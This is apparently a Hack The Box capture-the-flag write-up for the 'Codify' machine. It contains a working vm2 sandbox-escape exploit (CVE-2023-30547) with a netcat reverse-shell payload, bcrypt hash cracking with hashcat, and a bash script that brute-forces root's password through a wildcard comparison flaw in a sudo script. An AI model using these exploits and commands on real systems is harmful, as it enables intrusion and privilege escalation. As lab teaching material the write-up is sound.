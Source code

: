 # Codify Writeup
<figure><img src="../src/Codify/display.png"></figure>

## Target IP Address: 10.10.11.239

Nmap Scan:

```
┌─[elliot@elliot-vmwarevirtualplatform]─[~/Desktop/htb/codify]
└──╼ $ nmap -sC -sV -vv 10.10.11.239
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN+/g3FqMmVlkT3XCSMH/JtvGJDW3+PBxqJ+pURQey6GMjs7abbrEOCcVugczanWj1WNU5jsaYzlkCEZHlsHLvk=
|   256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIm6HJTYy2teiiP6uZoSCHhsWHN+z3SVL/21fy6cZWZi
80/tcp   open  http    syn-ack Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    syn-ack Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration

After scannig we get the host name `codify.htb`

Adding the IP and URL to `/etc/hosts`

<figure><img src="../src/Codify/page.png"></figure>

After a little bit of enumeration I found that the the application uses `vm2` as the sandbox module.
Found an exploit which escapes the sandbox environment and will help us getting the rce `CVE-2023-30547`.

After reading about the exploit. This code helped me get the reverse shell to have access to the user.

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.xx.xx 4444 >/tmp/f'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```

<figure><img src="../src/Codify/rev-shell.png"></figure>

## User Flag

Found out the hash for `joshua` in `/var/www/contact` in `tickets.db`

<figure><img src="../src/Codify/user-hash.png"></figure>

As we can identify that the format of the hash is `bcrypt`.

We use Hashcat to decypt the hash.

```
┌─[elliot@elliot-vmwarevirtualplatform]─[~/Desktop/htb/codify]
└──╼ $hashcat -m 3200 -a 0 hash.txt ~/Desktop/assets/rockyou.txt
```

Logging in as Joshua using the same credentials,

```
┌─[elliot@elliot-vmwarevirtualplatform]─[~/Desktop/htb/codify]
└──╼ $ssh joshua@codify.htb
joshua@codify.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Dec 14 06:32:42 AM UTC 2023

  System load:                      0.0078125
  Usage of /:                       69.5% of 6.50GB
  Memory usage:                     19%
  Swap usage:                       0%
  Processes:                        233
  IPv4 address for eth0:            10.10.11.239
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:334a


Expanded Security Maintenance for Applications is not enabled.
To check for new updates run: sudo apt update

joshua@codify:~$
```

Found the user flag.
<figure><img src="../src/Codify/userflag.png"></figure>


## Root Flag

Checking sudo permissions to reveal what scripts can be run as root:

```
joshua@codify:~$ sudo -l
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Analyzing `/opt/scripts/mysql-backup.sh`

```
joshua@codify:/opt/scripts$ cat mysql-backup.sh 
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

The password checking in the script is ultimately not a safe way to check for passwords. If we enter '*' it will give some wierd output, it says 'Password Confirmed' so we need to bruteforce the password.

I wrote a bash script for the password bruteforce.

```
#!/bin/bash

all=$(echo {a..z} {A..Z} {0..9})
password=""
found=false

while [ "$found" == false ]; do
    for character in $all; do
        command="echo '${password}${character}*' | sudo /opt/scripts/mysql-backup.sh"
        output=$(eval $command)
        
        if [[ "$output" == *"Password confirmed!"* ]]; then
            password="${password}${character}"
            echo $password
            break
        fi
    done || found=true
done
```
On executing the script. We find the password for root.
```
joshua@codify:/tmp$ su root
Password: 
root@codify:/tmp# 
```

Thank you!! Happy Hacking :D